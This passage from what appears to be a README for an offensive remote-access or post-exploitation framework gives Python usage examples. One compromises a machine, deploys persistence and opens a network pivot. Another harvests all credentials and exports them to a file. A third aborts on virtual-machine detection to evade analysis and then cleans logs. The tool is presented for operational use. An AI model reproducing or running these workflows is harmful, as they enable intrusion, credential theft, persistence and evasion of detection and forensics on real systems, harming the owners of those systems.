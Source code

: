 ### Data Protection
- ✅ Encrypted credential storage
- ✅ Secure key exchange (ECDH)
- ✅ Zero-knowledge architecture
- ✅ Intelligence export encryption

---

## 🎓 Usage Examples

### Example 1: Full Compromise Workflow
```python
from advanced_dashboard_integration import AdvancedDashboardIntegration

dashboard = AdvancedDashboardIntegration(socketio)
dashboard.initialize_modules()

# 1. Analyze behavior
assessment = dashboard.analyze_agent_action('agent_001', {
    'type': 'command',
    'command': 'net user',
    'privilege': 'admin'
})

# 2. Establish encrypted channel
dashboard.establish_encrypted_channel('agent_001')

# 3. Deploy persistence
dashboard.deploy_persistence('agent_001')

# 4. Create pivot
dashboard.create_network_pivot('agent_001', bind_port=1080)

# 5. Get analytics
analytics = dashboard.get_real_time_analytics()
```

### Example 2: Credential Gathering
```python
from advanced_credential_harvester import AdvancedCredentialHarvester

harvester = AdvancedCredentialHarvester()
results = harvester.harvest_all()
harvester.export_credentials('creds.json', encrypt=True)
```

### Example 3: Stealth Operation
```python
from advanced_stealth_evasion import AdvancedStealthManager

stealth = AdvancedStealthManager()

# Check environment
if stealth.check_virtualization()['is_virtual_machine']:
    exit("VM detected - aborting")

# Enable stealth
stealth.enable_full_stealth()
stealth.clean_logs()
```

---